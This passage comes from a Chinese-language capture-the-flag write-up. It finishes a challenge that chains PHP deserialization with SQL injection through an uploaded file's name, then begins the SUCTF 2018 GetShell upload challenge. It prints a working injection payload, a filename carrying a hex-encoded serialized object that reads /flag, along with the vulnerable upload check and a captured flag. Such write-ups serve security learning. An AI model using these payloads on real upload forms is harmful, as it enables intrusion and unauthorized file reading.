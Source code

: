 使用十六进制编码是为了绕过protected。

#### sql注入

反序列化构造完成了，接下来就是看看如何到达入口。

从show.php中可以看出，入口是sql读取的attr键值，而我们在上传时会经过一个check()函数。

```php
public function check($info)
{
	$basename = substr(md5(time().uniqid()),9,16);
	$filename = $info["name"];
	$ext = substr(strrchr($filename, '.'), 1);
	$cate_exts = array("jpg","gif","png","jpeg");
	if(!in_array($ext,$cate_exts)){
		die("<p>Please upload the correct image file!!!</p>");
	}
    $title = str_replace(".".$ext,'',$filename);
    return array('title'=>$title,'filename'=>$basename.".".$ext,'ext'=>$ext,'path'=>$this->folder.$basename.".".$ext);
}
```

这里我们只有\$filename可控，而\$title的值为上传的文件名去掉后缀的值，即上传了一个文件名为a.png，则title为a。

于是我们可以控制title时后面的语句失效，从而达到控制变量的目的，这样attr的键值就可控了。

修改文件名上传。

> filename="1','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a22002a00636f6e666967223b733a353a222f666c6167223b733a393a22002a00696676696577223b623a313b7d)#.png"

![](https://gitee.com/R1ta_Violet/blogimg/raw/master/imgs/image-20210812111351572.png)

上传后去show.php执行，就可以拿到flag了。

> flag{ab9b67fb-c05c-45ce-b223-c9bb1247dc34}

### [SUCTF 2018]GetShell

#### 无字母数字upload

找了找发现只有upload的点，还有黑名单。

```php
if($contents=file_get_contents($_FILES["file"]["tmp_name"])){
    $data=substr($contents,5);
    foreach ($black_char as $b) {
        if (stripos($data, $b) !== false){
            die("illegal char");
        }
    }     
} 
```

简单测试一下发现只给了一些字符，字母和数字都ban了。
